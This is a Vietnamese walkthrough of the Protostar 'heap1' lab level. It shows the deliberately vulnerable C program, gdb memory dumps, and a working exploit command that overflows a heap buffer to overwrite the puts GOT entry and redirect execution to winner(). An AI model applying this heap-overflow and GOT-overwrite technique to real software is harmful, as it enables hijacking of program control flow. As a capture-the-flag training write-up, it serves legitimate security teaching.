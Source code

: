 # HEAP ONE

## About

This level takes a look at code flow hijacking in data overwrite cases.

This level is at /opt/protostar/bin/heap1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

## Solutions

`HEAP ONE` cho chúng ta thấy ngoài việc thay đổi luồng thực thi, trong một số trường hợp đặc biệt việc khai báo cấu trúc các biến cho ta khả năng ghi đè dẫn tới chiếm được quyền điều khiển luồng thực thi. Thử thách hoàn thành khi chúng ta in được dòng chữ `"and we have a winner @ "`.

Trong chương trình này, chúng ta thấy rằng hai `struct internet` `*i1`, `*i2` đã được cấp phát. Mỗi struct chứa một con trỏ `name` được cấp phát riêng. Điều này có nghĩa là `struct internet` được cấp phát trên heap sẽ chứa một con trỏ đến một phần khác của bộ nhớ trên heap có chứa buffer có độ dài là 8.

Bộ nhớ Heap được cấp phát liên tục nên Heap được bố cục như sau:

```
[i1 structure][i1's name buffer][i2 structure][i2's name buffer]
```

Do buffer overflow từ cuộc gọi `strcpy` đầu tiên, chúng ta có thể ghi đè con trỏ `name` của i2 bằng một vị trí mà chúng ta muốn cuộc gọi `strcpy` thứ hai ghi vào. Với điều này, chúng ta có thể ghi dữ liệu tùy ý vào bất kỳ vị trí nào trong bộ nhớ mà chúng tôi muốn.

```
$./heap1 AAAA BBBB

(gdb) x/50x  0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
...
```

Vấn đề bây giờ là ghi vào đâu? Chắc các bạn vẫn còn nhớ `FORMAT FOUR`, ý tưởng của tôi ở đây là ghi đè địa chỉ `GOT` của hàm `puts` bằng địa chỉ của hàm `winner` để thay vì gọi hàm `puts` in `"and that's a wrap folks!"` chúng ta sẽ nhảy đến hàm `winner` và thoát mà không có `Segmentation fault`.

Địa chỉ `winner`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048494 <winner>
```

Địa chỉ `GOT` của `puts`.

```
...
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
0x08048566 <main+173>:  leave
0x08048567 <main+174>:  ret
End of assembler dump.
(gdb) x/2i 0x80483cc
0x80483cc <puts@plt>:   jmp    DWORD PTR ds:0x8049774
0x80483d2 <puts@plt+6>: push   0x30
(gdb)
```

Tiến hành khai thác.

```
root@protostar:/opt/protostar/bin# ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'") $(python -
c "print '\x94\x84\x04\x08'")
and we have a winner @ 1649082615
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



